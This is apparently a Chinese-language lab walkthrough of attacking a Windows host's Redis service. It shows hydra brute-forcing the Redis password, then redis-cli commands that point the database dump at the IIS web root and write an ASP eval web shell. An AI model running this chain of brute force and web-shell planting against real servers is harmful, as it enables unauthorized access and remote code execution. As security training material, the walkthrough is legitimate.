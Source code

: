 6379明显为redis

服务器明显为 windows ，所以我们试试 redis 的未授权访问

## Redis未授权访问

### 空密码连接失败

```bash
└─# redis-cli -h 192.168.0.104
192.168.0.104:6379> info
NOAUTH Authentication required.
```

### 爆破密码

爆破密码有很多方法，有 msf、hydra、网上一些工具或者自写 py 脚本都行，我这里试试 hydra 爆破

#### hydra爆破

```bash
└─# hydra -P top1000.txt redis://192.168.0.104
```

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-16 02:33:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1001 login tries (l:1/p:1001), ~63 tries per task
[DATA] attacking redis://192.168.0.104:6379/
[6379][redis] host: 192.168.0.104   password: 123456789qq
1 of 1 target successfully completed, 1 valid password found
```

密码为： 123456789qq

### 连接Redis写webshell

所以我们直接连接，尝试在IIS的根目录写一个 ASP 的 SHELL
因为是IIS，所以默认路径 inetpub/wwwroot
又因为是IIS，所以解析 ASP/ASPX

```bash
└─# redis-cli -h 192.168.0.104
192.168.0.104:6379> auth 123456789qq
OK
192.168.0.104:6379> set dir C:/inetpub/wwwroot/
OK
192.168.0.104:6379> config set slave-read-only no
OK
192.168.0.104:6379>  config set dbfilename kk.asp
OK
192.168.0.104:6379> set qw '   <%eval request("pass")%>   '
OK
192.168.0.104:6379> save
OK
192.168.0.104:6379> quit
```

